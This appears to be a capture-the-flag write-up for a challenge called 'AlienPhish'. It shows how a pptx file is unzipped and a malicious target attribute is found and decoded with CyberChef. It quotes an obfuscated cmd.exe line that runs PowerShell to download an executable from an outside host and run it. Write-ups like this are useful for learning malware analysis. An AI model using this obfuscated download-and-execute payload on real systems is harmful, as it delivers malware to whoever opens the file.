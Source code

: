 # AlienPhish

## Finding what to look for:
The first thing that comes to mind then when you saw the [pptx](https://en.wikipedia.org/wiki/Office_Open_XML_file_formats) format is that its basically a zip file with bunch of stuff in there 

We can unzip it. with that done now i had much more files to work with.

Most of them were common files so looked around and i found lot of urls looking through wiki i found its usage after that it was simple i found something interesting use of target attribute:

![](https://i.imgur.com/gxYXYBn.png)


```xml=
cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22
```

## Decoding 

looking through that cmd that reverse exe stood out like sore thumb so after opening cyberchef using reverse recipe and using magic/base64(on side note base64 didnt work quite right but after trying magic it gave me right flag you have to play around with alphabets )

![](https://i.imgur.com/19IiiPw.png)